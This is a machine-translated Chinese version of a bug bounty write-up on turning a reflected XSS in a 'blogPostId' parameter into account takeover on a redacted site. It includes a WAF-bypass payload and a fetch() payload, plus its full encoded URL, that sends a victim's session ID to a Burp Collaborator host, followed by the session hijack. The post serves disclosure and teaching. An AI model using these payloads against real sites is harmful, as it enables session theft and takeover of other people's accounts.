








# 武器化反映了 XSS 对账户的接管

> 原文：<https://infosecwriteups.com/weaponizing-reflected-xss-to-account-takeover-ae8aeea7aca3?source=collection_archive---------0----------------------->

各位猎人，这是我第一次为这个社区写文章，我将解释我是如何发现一个反映的跨站点脚本错误，并进一步升级它以实现网站上任何用户的帐户接管。

我测试的目标是一个只有一个主域的私有程序，所以我在这篇博客中称它为 www.redacted.com，让我们开始吧。

**发现 XSS**

**参数发现**

在侦察阶段，我启动了 burpsuite proxy，将 www.redacted.com 加入了搜索范围，并开始浏览网站以获取流量。为了找到 XSS，我通常使用一个名为[“Reflected Parameters”](https://portswigger.net/bappstore/8e8f6bb313db46ba9e0a7539d3726651)的 Burp Suite PRO 扩展，它监视由代理生成的范围内请求流量，并寻找响应中反映的请求参数值。

反射参数扩展

因此，在捕获流量时，我遇到了一个名为`blogPostId`的参数，其值反映在 JS 上下文中。

反思发生在 JS 上下文中

我决定进一步测试这个参数，使用一个包含一组特殊字符的小字符串，类似于`test123'"><` ,结果发现没有适当的输入净化。

首先，我试图关闭现有的脚本标签，但失败了，因为脚本标签被封锁，由于 WAF 正在执行。因此，下一个有效负载被用来调用现有脚本标签中的 alert 函数，但是 WAF 阻塞了这个请求。

模糊了一会儿后，我使用 iife 函数绕过了限制，弹出了一个警告框，显示了以下有效载荷:

> `*https://www.redacted.com/preview/001981ba?blogPostId=test123";(alert)("xss")//*`

**升级为 ATO**

增加 XSS 影响的最有用的方法是窃取受害者的会话 id，这将导致整个帐户被接管。因此，我注意到了 Burp 的历史日志中的请求，并发现一个 API 请求在 JSON 格式的响应中泄露了用户的会话 id。

API 端点泄漏 sessionID

端点泄漏会话 ID:
*https://www.redacted.com/api/uis/accounts/current/sso*

**构建有效载荷**

我使用了以下有效载荷来实施攻击:

> `*";fetch('https://www.redacted.com/api/uis/accounts/current/sso').then(a=> a.text()).then(a=> fetch('https://random.burpcollaborator.net?x='+a))//*`

**解释:**这里我在有效载荷中使用 javascript 的 fetch()方法，指示 web 浏览器向 URL 发送请求。第一个 fetch()向这个 api 端点*https://www.redacted.com/api/uis/accounts/current/sso*(泄漏的会话 id)发送一个 GET 请求，我们可以用它来劫持帐户。`**(a=> a.text())**` 将数据返回到`**a**` 变量**中。**之后，使用第二个 fetch()函数发送另一个 GET 请求，将窃取的数据发送到攻击者控制的服务器中。为此，我简单地使用了打嗝合作者。

页（page 的缩写）感谢萨阿德·艾哈迈德 帮我构建这个有效载荷。

**最终网址:**

> `*https://www.redacted.com/preview/001981ba?blogPostId=327156%22;fetch(%27https://www.redacted.com/api/uis/accounts/current/sso%27).then(a=%3E%20a.text()).then(a=%3E%20fetch(%27https://random.burpcollaborator.net?x=%27%2ba))//*`

现在，我所要做的就是将这个链接发送给网站的任何经过身份验证的用户，一旦他们打开它，他们的会话 ID 就会被发送到攻击者的控制服务器(在我的例子中是 Burp collaborator)。

检索到 SessionID

在检索到会话 ID 后，我首先以攻击者的身份登录，然后通过使用 Firefox 的 inspect 元素用受害者的 ID 替换了我的会话 ID，并刷新了让我以受害者身份登录的页面，从而成功接管了会话。

**在**之前:以攻击者身份登录

之后的**:以受害者身份登录**

有一次我在受害者的账户里，我干脆把邮箱地址换成了我的，完全接管了这个账户。

**最终备注:**

这篇文章展示了 XSS 漏洞的严重性，以及如何提高报告的影响力。此外，如果你有任何疑问，请随时在推特上联系我，祝你黑客愉快！